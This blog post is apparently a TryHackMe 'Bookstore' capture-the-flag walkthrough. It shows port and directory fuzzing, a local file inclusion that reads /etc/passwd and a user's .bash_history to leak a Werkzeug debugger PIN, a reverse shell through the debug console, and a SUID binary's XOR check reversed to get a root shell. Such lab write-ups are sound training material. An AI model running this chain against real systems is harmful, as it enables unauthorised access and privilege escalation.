



+++
title = "TryHackMe Bookstore"
date = 2022-11-07T18:49:59-06:00

[taxonomies]
tags = ["CTF", "TryHackMe"]

[extra]
author = "Zane Fry"
+++

**Room Description:**
> A Beginner level box with basic web enumeration and REST API Fuzzing.

<!-- more -->

Let's start with a quick port scan.

```bash
nmap -sC -sV bookstore.thm
```
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
    |   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
    |_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
    80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Book Store
    5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
    | http-robots.txt: 1 disallowed entry
    |_/api </p>
    |_http-title: Home
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

It's hosting two http servers, and the one on port 5000 has one entry
in its `/robots.txt`. Probably a REST API as the room description suggests. I also
went on to scan all ports to no avail.

---

## Port 80

The site on port 80 is mostly empty with a few forms that aren't connected to anything,
but after a little searching I found an interesting comment in `/login.html`.

```bash
curl -s bookstore.thm/login.html | grep '<!--'
```
    ...
    <!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->

I'm not sure what's mean by the debugger pin yet, but we have a username: **sid**.

---

## Port 5000

Nothing on the home page, let's try directory enumeration.

```bash
curl -s bookstore.thm:5000
```
    <title>Home</title>
    <h1>Foxy REST API v2.0</h1>
    <p>This is a REST API for science fiction novels.</p>

```bash
ffuf -u bookstore.thm:5000/FUZZ -w $(locate -r /common.txt)
```
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

    v1.1.0
    ________________________________________________

    :: Method           : GET
    :: URL              : http://bookstore.thm:5000/FUZZ
    :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200,204,301,302,307,401,403
    ________________________________________________

    api                     [Status: 200, Size: 825, Words: 82, Lines: 12]
    console                 [Status: 200, Size: 1985, Words: 411, Lines: 53]
    robots.txt              [Status: 200, Size: 45, Words: 5, Lines: 2]
    :: Progress: [4713/4713] :: Job [1/1] :: 188 req/sec :: Duration: [0:00:25] :: Errors: 0 ::

Navigating to `/console` prompts us for a pin. Werkzeug must be a web console
for debugging that was left in production in this fictional scenario. Maybe the
REST API is vulnerable to LFI and we can read **sid**'s `.bash_history` file.



Navigating to `/api` shows documentation of an endpoint called `books`.

```bash
curl -s bookstore.thm:5000/api | html2text
```
    ****** API Documentation ******
    **** Since every good API has a documentation we have one as well! ****
    ***** The various routes this API currently provides are: *****

    /api/v2/resources/books/all (Retrieve all books and get the output in a json format)
    /api/v2/resources/books/random4 (Retrieve 4 random records)
    /api/v2/resources/books?id=1(Search by a specific parameter , id parameter)
    /api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)
    /api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)
    /api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)

After a bunch of fuzzing and trying `sqlmap` with no results I thought to try changing `v2` to `v1`.

```bash
curl -I bookstore.thm:5000/api/v1/resources/books?id=1
```
    HTTP/1.0 200 OK
    Content-Type: application/json
    Access-Control-Allow-Origin: *
    Content-Length: 237
    Server: Werkzeug/0.14.1 Python/3.6.9
    Date: Tue, 08 Nov 2022 21:22:52 GMT

Looks like version 1 is still up. Let's try fuzzing for parameters that aren't listed in the documentation.

```bash
ffuf -u 'http://bookstore.thm:5000/api/v1/resources/books?FUZZ=/etc/passwd' -w $(locate actions-lowercase)
```
            /'___\  /'___\           /'___\
           /\ \__/ /\ \__/  __  __  /\ \__/
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
             \ \_\   \ \_\  \ \____/  \ \_\
              \/_/    \/_/   \/___/    \/_/

    v1.1.0
    ________________________________________________

    :: Method           : GET
    :: URL              : http://bookstore.thm:5000/api/v1/resources/books?FUZZ=/etc/passwd
    :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/api/actions-lowercase.txt
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200,204,301,302,307,401,403
    ________________________________________________

    show                    [Status: 200, Size: 1555, Words: 9, Lines: 31]
    :: Progress: [109/109] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::'

Finally a vulnerable parameter, and upon further inspection it turns out to be the LFI foreshadowed by the comment in `/login.html`.

```bash
curl -s 'http://bookstore.thm:5000/api/v1/resources/books?show=/home/sid/.bash_history'
```
    whoami
    export WERKZEUG_DEBUG_PIN=123-321-135
    echo $WERKZEUG_DEBUG_PIN
    python3 /home/sid/api.py
    ls
    exit

With access to the python console we can simply paste some code from [revshells.com](https://revshells.com) and get a shell.



---

## Local Privilege Escalation

In **sid**'s home dir there's a SUID binary owned by root. This must be the intended path for privilege escalation.

    sid@bookstore:~$ ls -l
    total 44
    -r--r--r-- 1 sid  sid  4635 Oct 20  2020 api.py
    -r-xr-xr-x 1 sid  sid   160 Oct 14  2020 api-up.sh
    -rw-rw-r-- 1 sid  sid 16384 Oct 19  2020 books.db
    -rwsrwsr-x 1 root sid  8488 Oct 20  2020 try-harder
    -r--r----- 1 sid  sid    33 Oct 15  2020 user.txt

What does it do?

    sid@bookstore:~$ ./try-harder
    What's The Magic Number?!
    1337
    Incorrect Try Harder

Seems like a reverse engineering challenge. I tried `strings`, `ltrace`, and `strace` before copying it to my machine,
dropping it into IDA, and generating some C pseudocode.



The germane part is this:

```C
v6 = 23987;
scanf("%d", &v5);
v7 = v6 ^ v5 ^ 0x1116;
if (v7 == 1573724660)
    system("/bin/bash -p");
```

The `^` symbol denotes the <abbr title="Exclusive OR">*XOR*</abbr> operation, which is easiest to explain visually to those unfamiliar:

         1010110
     XOR 1101111
     -----------
         0111001

The result is `0` where the operands agree and `1` where they differ.
If we assert `v7` is equal to the correct value to give us a root shell,
and convert all numbers to hex, the xor expression can be rearranged to
`0x1116 ^ 0x5db3 ^ 0x5dcd21f4 = v5`. The reason `v5` can be isolated this way
is that xor is its own inverse. Then all that's left to find the correct input
is to compute the xor of these three terms.

```bash
python -c 'print(int(0x1116) ^ int(0x5db3) ^ int(0x5dcd21f4))'
```
    1573743953


Let's try it.

    sid@bookstore:~$ ./try-harder
    What's The Magic Number?!
    1573743953
    root@bookstore:~#

And there we have it. This room was good practice for learning to persist when fuzzing. I especially liked the step which required
going from `v2` to `v1`.


